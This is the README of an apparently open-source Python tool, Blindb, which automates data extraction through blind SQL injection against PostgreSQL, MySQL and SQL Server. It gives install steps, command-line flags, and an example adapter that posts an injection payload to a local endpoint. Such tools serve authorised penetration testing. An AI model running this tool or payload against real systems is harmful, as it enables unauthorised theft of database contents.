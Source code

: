 # Blindb
A python tool to automatically extract data from blind sql injections. Currently supports postgres, mysql and Microsoft SQL Server.
Also uses multithreading and multiple processes to speed up the extraction.
## Install

Clone this repository and the issue the command:

`
pip install .
`

to install the tool globally.
## Usage

### Command Line Arguments

- `---adapter` The python file containing the isTrue function, to execute the sql injection

- `--dbms` The dbms system in use (mysql, postgres or mssql)

- `--output` The text file path where the database info will be written.

- `--tables-db` The path of the sqlite database where the table contents will be duplicated to. (not required if extracting only the table names)

### Example

`blindb --adapter=sqli.py --dbms=postgres --output=dbinfo.txt --tables-db=data.db`

### The adapter file

The adapter is a python file containing a single function callled `isTrue`, which take one argument (the query) and returns either True or False, based on the condition.

Exmaple:

```python
import requests

def isTrue(query):
    payload = f"""abcd1234' AND {query} AND ''='"""

    r = requests.post("http://localhost:5000/sqli",
        verify = False,
        data = {
            "q": payload
        }
    )

    return len(r.content) != 3
```

## Screenshots

![](screenshot.png)